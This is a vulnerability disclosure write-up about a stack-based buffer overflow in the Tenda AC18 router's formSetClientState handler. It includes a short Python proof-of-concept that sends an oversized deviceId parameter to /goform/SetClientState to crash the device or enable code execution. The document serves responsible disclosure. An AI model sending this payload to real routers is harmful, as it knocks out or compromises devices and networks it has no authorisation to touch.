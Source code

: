 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetClientState` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetClientState`.

In function `formSetClientState` it reads user provided parameter `deviceId` into `v9`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetClientState`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetClientState?"
url += "limitEn=1&deviceId=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
